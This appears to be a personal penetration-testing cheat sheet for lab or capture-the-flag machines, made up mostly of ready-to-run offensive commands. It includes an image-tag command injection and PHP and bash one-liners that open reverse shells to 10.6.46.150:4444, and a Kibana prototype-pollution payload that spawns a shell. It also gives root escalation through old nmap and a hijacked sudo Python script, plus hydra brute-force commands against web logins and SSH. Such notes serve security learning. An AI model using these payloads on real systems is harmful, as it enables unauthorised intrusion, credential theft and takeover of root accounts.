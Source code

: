 


*
-sC flag in nmap runs a set of default NSE scripts, some of them are intrusive so this should not be run against real machines.


*
-A flag means agressive. It consists of 
-A: Enable OS detection, version detection, script scanning, and traceroute


*
nmap run without sudo does TCP scan (-sT) and with sudo SYN scan (-sS). SYYN scan is better as it is a stealth one - sends RST flag to server so it avoids getting detected by firewall (for example). On the other side, it can destabilize weak applications on a server .


*
To check if there is a nse script for X service:

`grep "X" /usr/share/nmap/scripts/script.db`


*
Getting rev shell when there is a chance to write a comment

`<img src=http://10.6.46.150/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.6.46.150 '$IFS'4444')>`

 
*
SPAWNING INTTERACTING SHELL WITH PYTHON

`python3 -c 'import pty;pty.spawn("/bin/bash")'`   


*
Listing all binaries with suid permission

`find / -perm -u=s -type f 2>/dev/null`


*
link to access a modified WP theme - `404.php` (to get rev shell)

`http://10.10.142.159/wp-content/themes/twentyfifteen/404.php`


*
if there is a filtering, it is needed to add command in backslashes e.g `l\s -la`


*
PHP REV SHELL ONE LINER

`php -r '$sock=fsockopen("10.6.46.150",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`


*
BASH REV SHELL ONELINER

`bash -i &>/dev/tcp/10.6.46.150/4444 <&1`


*
There are many different converters to john format

`bin2john / zip2john / gpg2john`


*
7z is a file to extract


*
binwalk -->> tool to check of there is a zip file inside .png image

`binwalk -e file`


*
NMAP SHELL

Old version of nmap can be used to escalate to root

`nmap --version` to check version

`nmap --interactive` to enter interacttive mode

and then `!sh` to get root


*
BRAINFUCK decoder

`https://www.splitbrain.org/_static/ook/`

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>++++++++++++++.------------.+++++.>+++++++++++++++++++++++.<<++++++++++++++++++.>>-------------------.---------.++++++++++++++.++++++++++++.<++++++++++++++++++.+++++++++.<+++.+.>----.>++++.


*
XOR DECODER

`http://xor.pw/#`


*
SPEECH TO TEXT CONVERTER

`https://speech-to-text-demo.ng.bluemix.net/`


*
PHP 5 is vulnerable to "null byte injection" 

TL;DR adding '\00' in the end of command.

https://www.cvedetails.com/cve/CVE-2006-7243/


*
Becoming root with python script and with no read/write rights:

`mv script.py script.py.bak` ---> renaming original script

`echo "import pty" > script.py` ---> adding pty library = pseudo terminal utilities

`echo "pty.spawn('/bin/bash')" >> script.py` ---> adding a spawn function

and executing a script with path given in `sudo -l` e.g `sudo -u root /usr/bin/python /home/script.py`


*
`wget -r` downloads all files of a directory


*
Kibana runs usually on port `5601`

It is always good to check it's version (Management section) and if it is vulnerable to `protype pollution`.

TL;DR We run netcat and inject a payload in Timelion, run it and open Canvas to get shell in netcat's terminal.

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.6.46.150/4444 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

*
FINDING CAPABILITIES

`getcap -r / 2>/dev/null` 

`2>/dev/null` -
--> discards all STDERR


*
Nessus is an automated scanner which runs on port `8834`. It mixes functions of nmap, nikto or zap together and provides many profiles calles `Policies`


*
Finding password for admin based on request and error message:

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.63.60 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -V`

Finding password knowing username:

`hydra -l $USER -P /usr/share/wordlists/rockyou.txt 10.10.147.74 $SERVICE`

$SERVICE --> ssh, ftp...


*
Sometimes in order to access a hidden website, it is needed to turn off javascript in a browser.

In Firefox:

`about:config` --> `javascript enabled` --> change to `false`


